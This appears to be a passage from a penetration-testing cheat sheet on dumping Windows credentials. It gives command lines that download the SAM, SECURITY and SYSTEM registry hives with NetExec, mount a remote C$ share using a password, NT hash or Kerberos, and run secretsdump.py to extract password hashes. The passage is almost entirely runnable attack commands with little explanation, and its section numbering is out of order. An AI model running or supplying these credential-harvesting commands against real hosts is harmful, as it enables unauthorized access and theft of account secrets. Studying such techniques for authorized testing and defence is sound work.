 #### 1.4.3 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/Temp/SAM SAM

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/Temp/SECURITY SECURITY

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/Temp/SYSTEM SYSTEM
```

### 1.4 - Parse hive files

#### 1.4.1 - Mount Remote SMB

Create a temporary folder for mounting an SMB share.

```
# mkdir /mnt/share
```

Mount SMB share with various authentication methods.

```
# mount -t cifs -o [domain=<domain>,]username=<username>,password=<password>,rw //<IP>/C$ /mnt/share

# smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# mount -t cifs -o [domain=<domain>,]username=<username>,password=<nt_hash>,sec=ntlmssp,rw //<IP>/C$ /mnt/share

# mount -t cifs -o sec=krb5,vers=3.0,rw '//<IP>/C$' /mnt/share
```

Harvest the credentials.

```
# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -system /mnt/share/Windows/System32/config/SYSTEM local

# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -security /mnt/share/Windows/System32/config/SYSTEM -system /mnt/share/Windows/System32/config/SECURITY local
```

If you have already downloaded the HIVE files. Then parse them with the fields.

```
$ secretsdump.py -sam /path/to/sam_hive_file -system /path/to/system_hive_file local

$ secretsdump.py -sam /path/to/sam_hive_file -security /path/to/security_hive_file -system /path/to/system_hive_file local
```

#### 1.4.2 - Impacket
